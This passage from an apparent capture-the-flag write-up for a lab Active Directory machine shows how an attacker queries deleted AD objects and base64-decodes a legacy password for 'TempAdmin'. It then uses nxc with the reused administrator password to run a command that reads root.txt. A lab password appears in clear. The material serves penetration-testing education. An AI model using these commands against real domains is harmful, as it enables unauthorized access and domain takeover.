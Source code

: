 This service account is a member of the `AD Recycle Bin` group which has the ability to [query deleted objects](https://o365info.com/restore-active-directory-deleted-user-account-using-active-directory-recycle-bin-article-4-4-part-16-23/). One of them is the account `TempAdmin` and it also has a `cascadeLegacyPwd` field (Figure 21).

{% code overflow="wrap" %}
```powershell
# searching for deleted AD objects
Get-ADObject -SearchBase "CN=Deleted Objects,DC=Cascade,DC=Local" -IncludeDeletedObjects -Filter {ObjectClass -eq "user"} -Properties *
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/casc_tempadmin_legacy.png" alt=""><figcaption><p>Figure 21: The cascadeLegacyPwd field of the deleted object TempAdmin.</p></figcaption></figure>

Luckily for us, this time the password is just base64-encrypted:

```bash
$ echo 'YmFDVDNyMWFOMDBkbGVz' | base64 -d
baCT3r1aN00dles
```

The email found earlier let us know that the password for `TempAdmin` was the same password as of the "_normal admin account_", so we can use them to achieve full domain compromise by reading both the `user.txt` and the `root.txt` files (Figure 22).

{% code overflow="wrap" %}
```bash
nxc smb 10.10.10.182 -u administrator -p tempadmin_pass -x 'type c:\users\administrator\desktop\root.txt'
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/casc_root.png" alt=""><figcaption><p>Figure 22: Password reuse leading to full domain compromise!</p></figcaption></figure>
